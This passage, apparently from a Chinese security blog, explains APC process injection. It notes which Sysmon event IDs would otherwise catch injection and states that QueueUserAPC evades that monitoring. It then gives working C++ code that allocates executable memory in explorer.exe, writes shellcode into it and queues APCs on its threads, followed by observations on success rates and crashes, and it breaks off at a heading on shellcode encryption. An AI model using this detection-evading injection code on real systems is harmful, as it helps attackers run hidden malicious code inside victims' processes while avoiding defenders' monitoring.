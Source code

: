 *   Event ID 8: CreateRemoteThread
    
*   Event ID 9: RawAccessRead
    
*   Event ID 10: ProcessAccess
    
*   Event ID 11: FileCreate
    
*   Event ID 12: RegistryEvent (Object create and delete)
    
*   Event ID 13: RegistryEvent (Value Set)
    
*   Event ID 14: RegistryEvent (Key and Value Rename)
    
*   Event ID 15: FileCreateStreamHash
    
*   Event ID 255: Error
    

详情见 https://technet.microsoft.com/en-us/sysinternals/sysmon

**「注：」**

CreateRemoteThread 为 Event ID 8

此时我们可以使用`QueueUserAPC`进行注入。

Sysmon 无法通过`QueueUserAPC`检测到进程注入。根据我的有限理解，这是因为我们没有在受害者进程中创建新线程。我们枚举进程已实例化的线程，打开线程，将其挂起，对其进行过程调用（我们的 shellcode），然后恢复该线程。我们只是访问一个进程，并告诉它执行一些侵入性较小的过程。

### APC 注入在实战中的场景

APC 注入进程`explorer.exe`代码

```
HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);	PROCESSENTRY32 processEntry = { sizeof(PROCESSENTRY32) };	if (Process32First(snapshot, &processEntry))	{		while (_wcsicmp(processEntry.szExeFile, L"explorer.exe") != 0)		{			Process32Next(snapshot, &processEntry);		}	}	HANDLE victimProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, processEntry.th32ProcessID);	LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);	//3.Execute shellcode	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;	WriteProcessMemory(victimProcess, shellAddress, shellcode, shellcodeSize, NULL);	THREADENTRY32 threadEntry = { sizeof(THREADENTRY32) };	std::vector<DWORD> threadIds;	if (Thread32First(snapshot, &threadEntry))	{		do {			if (threadEntry.th32OwnerProcessID == processEntry.th32ProcessID)			{				threadIds.push_back(threadEntry.th32ThreadID);			}		} while (Thread32Next(snapshot, &threadEntry));	}	for (DWORD threadId : threadIds)	{		HANDLE threadHandle = OpenThread(THREAD_ALL_ACCESS, TRUE, threadId);		QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);		Sleep(1000 * 2);	}	return 0;
```

可以看到，我们对 explorer 所有线程进行了注入，假设线程有 20-50 个，那么我们的 shellcode 会执行 20-50 次（虽然 shellcode 可以用条件来限制只执行一次）。

我们是否可以将线程限制一个数量？例如 5 个。

![](https://mmbiz.qpic.cn/mmbiz_png/eLgL5R4W3Fia3MQ9icfOtVNt7MYCia2edjTEJ5twpUgxJmgfNndvR5RofEJG3gDMFyLNB0VtLf7s65iamSSaudsNMA/640?wx_fmt=png)QueueUserAPC（）流程注入 - 实际示例分析

可以看到，我们注入了 5 个线程，但是只执行了 3 个线程，根据以往经验，有 60％-70％的注入线程成功执行，根据限制数量不同也有不同。同时还可能有程序崩溃的现象。这也是使用这个技术的一些弊端。

shellcode 加密
------------

